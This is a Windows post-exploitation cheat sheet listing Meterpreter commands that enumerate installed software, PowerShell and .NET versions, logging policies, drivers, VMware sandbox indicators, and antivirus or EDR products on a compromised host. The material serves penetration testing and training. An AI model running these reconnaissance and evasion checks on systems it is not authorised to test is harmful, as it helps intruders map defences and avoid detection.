 # Metasploit
Search Tag(s): #post-exploitation #enumeration-and-discovery #metasploit-framework #windows

## 01 - Installed Programs

TODO: Convert the manual methods to meterpreter

### 1.1 - List Installed Software

```
meterpreter > run post/windows/gather/enum_applications

meterpreter > run post/windows/gather/enum_chocolatey_applications

meterpreter > run post/windows/gather/wmic_command command="product get name,version,vendor"

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE
```

### 1.2 - List directories including hidden files and folders

```
meterpreter > ls -R "C:\Program Files"

meterpreter > ls -R "C:\Program Files (x86)"
```

### 1.3 - Find a specific program

- File Explorer

```
meterpreter > ls -RS "explorer.exe" C:\\

meterpreter > search -d C:\\ -f explorer.exe
```

- Internet Explorer

```
meterpreter > ls -RS "iexplore.exe" C:\\

meterpreter > search -d C:\\ -f iexplore.exe
```

- Java Updater

```
meterpreter > ls -RS "jucheck.exe" C:\\

meterpreter > search -d C:\\ -f jucheck.exe
```

- Find MSBuild C# compiler versions

```
meterpreter > ls -RS "MSBuild.exe" C:\\

meterpreter > search -d C:\\ -f MSBuild.exe

C:\> dir %windir%\Microsoft.NET\Framework64 /ad

C:\> dir /b %windir%\Microsoft.NET\Framework64\v*

meterpreter > ls -R %windir%\Microsoft.NET\Framework64

meterpreter > ls %windir%\Microsoft.NET\Framework64\v*

meterpreter > run post/windows/gather/wmic_command command="product get description"

user@pentestos:~$ grep ".NET" /root/.msf4/loot/msf-loot-file.txt
```

## 02 - Powershell and .NET

Discover available Powershell engines.

```
meterpreter > reg queryval [-r <target_IP>] -k hklm\\software\\microsoft\\powershell\\1\\powershellengine -v powershellversion

meterpreter > reg queryval [-r <target_IP>] -k hklm\\software\\microsoft\\powershell\\3\\powershellengine -v powershellversion
```

Discover Powershell Logging.

```
meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\Powershell\\Transcription

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\PowerShell\\ModuleLogging

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\PowerShell\\ScriptBlockLogging
```

Enumerate available Common Language Runtime (CLR) versions.

```
meterpreter > ls -RS "System.dll" %windir%\Microsoft.Net\Framework\

C:\> reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4\Full Release"
```

## 03 - Device Drivers

### 3.1 - Meterpreter Command

```
meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN_NAME>\]username>] [/p <password>] [/v] /fo list"

meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN_NAME>\]username>] [/p <password>] /fo table"

meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN_NAME>\]username>] [/p <password>] --no-msft"
```

### 3.2 - Powershell Extension

#### 3.2.1 - Execute Powershell Commands

```
meterpreter > powershell_execute 'driverquery.exe [/s <IP>] [/u [<DOMAIN_NAME>\]username>] [/p <password>] /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", Start Mode", Path'

meterpreter > powershell_execute 'Get-CimInstance Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMWare*"}'
```
#### 3.2.2 - Spawn Interactive Powershell

```powershell
meterpreter > powershell_shell
PS > $VMAdapter = Get-CimInstance Win32_NetworkAdapter -Filter 'Manufacturer LIKE "%VMware%" OR Name LIKE "%VMWare%"'
PS > $VMBios = Get-CimInstance Win32_BIOS -Filter 'SerialNumber LIKE "%VMWare%"'
PS > $VMToolsRunning = Get-CimInstance Win32_Process -Filter 'Name="vmtoolsd.exe"'
PS > [Bool]($VMAdapter -or $VMBios -or $VMToolsRunning)
```

## 04 - Antivirus and EDR

```
meterpreter > service_query WinDefend

meterpreter > run post/windows/gather/enum_av

meterpreter > run post/windows/gather/wmic_command command="/namespace:\\root\securitycenter2 path antivirusproduct"

meterpreter > run post/windows/gather/wmic_command command="/namespace:\\root\securitycenter2 path antivirusproduct get displayname, productState, pathToSignedProductExe"
```

---
## References

- [[04 - Powershell|Powershell Meterpreter Extension]]

- [Rapid7: Metasploit Framework Enumerate AV Gather Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/enum_av.md)